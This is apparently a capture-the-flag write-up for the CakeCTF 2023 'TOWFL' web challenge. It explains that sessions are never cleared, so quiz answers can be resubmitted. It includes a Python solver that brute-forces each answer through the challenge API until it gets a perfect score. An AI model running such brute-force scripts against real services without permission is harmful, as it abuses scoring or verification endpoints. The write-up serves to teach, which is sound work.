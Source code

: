 # TOWEL

## Description

> Do you speak the language of wolves?
>
> Prove your skill [here](http://towfl.2023.cakectf.com:8888/)!
>
> Attachments: towfl_1522fc6a699ad2ed6345f40f36451c78.tar.gz

<details><summary>Attachment file tree</summary>

```console
$ tree towfl
towfl
├── docker-compose.yml
├── redis
│   ├── Dockerfile
│   └── redis.conf
└── service
    ├── app.py
    ├── Dockerfile
    ├── static
    │   ├── fonts
    │   │   └── hymmnos.ttf
    │   ├── img
    │   │   └── towfl.webp
    │   └── js
    │       └── script.js
    ├── templates
    │   └── index.html
    └── uwsgi.ini

8 directories, 10 files
```

</details>

## Solution

On the server side, since the session is not deleted, we can check the answers as many times as we want.
We can brute force by using this and get all the answers correct.

solver.py

```python
import requests

s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}

BASE_URL = "http://127.0.0.1:8888"
# BASE_URL = "http://towfl.2023.cakectf.com:8888"


def main():
    ans = [[-1 for _ in range(10)] for _ in range(10)]

    res = s.post(f"{BASE_URL}/api/start")
    cookies = res.cookies

    current_score = 0
    for i in range(10):
        for j in range(10):
            for k in range(4):
                print(f"{i=}, {j=}, {k=}", end="\r", flush=True)
                ans[i][j] = k
                s.post(f"{BASE_URL}/api/submit", json=ans, cookies=cookies)
                res = s.get(f"{BASE_URL}/api/score", cookies=cookies)
                res = res.json()

                if res["data"]["flag"] != "Get perfect score for flag":
                    print(res)
                    return

                elif res["data"]["score"] == current_score + 1:
                    current_score += 1
                    break


if __name__ == "__main__":
    main()
```


```console
$ python3 solver.py
{'data': {'flag': '"FakeCTF{*** REDACTED ***}"', 'score': 100}, 'status': 'ok'}
```
